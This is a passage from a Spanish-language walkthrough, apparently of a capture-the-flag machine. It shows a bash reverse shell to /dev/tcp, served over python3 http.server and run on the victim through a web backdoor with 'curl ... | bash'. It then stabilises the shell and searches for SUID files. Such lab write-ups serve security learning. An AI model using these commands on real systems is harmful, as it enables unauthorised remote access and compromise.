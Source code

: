 Si al enviar el comando con `curl` llega un mensaje al comando de `python3` significa que la herramienta esta instalada, por lo que podremos hacer lo siguiente...

```shell
nano index.html

#Contenido del nano

#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Guardamos el archivo y ahora lo ejecutaremos desde `curl` en la maquina victima haciendo lo siguiente...

Donde tengamos el archivo abrimos un servidor de `python3` de la siguiente manera...

```shell
python3 -m http.server 80
```

Una vez hecho eso, estaremos a la escucha...

```shell
nc -nlvp <PORT>
```

Y por ultimo lo ejecutaremos con `curl` de la siguiente forma en la maquina victima...

```shell
URL = http://<IP>/backdoor.php?cmd=curl http://<IP>/index.html | bash
```

Y con esto ya tendriamos la shell como el usuario `www-data`...

Sanitizamos la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si hacemos lo siguiente...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

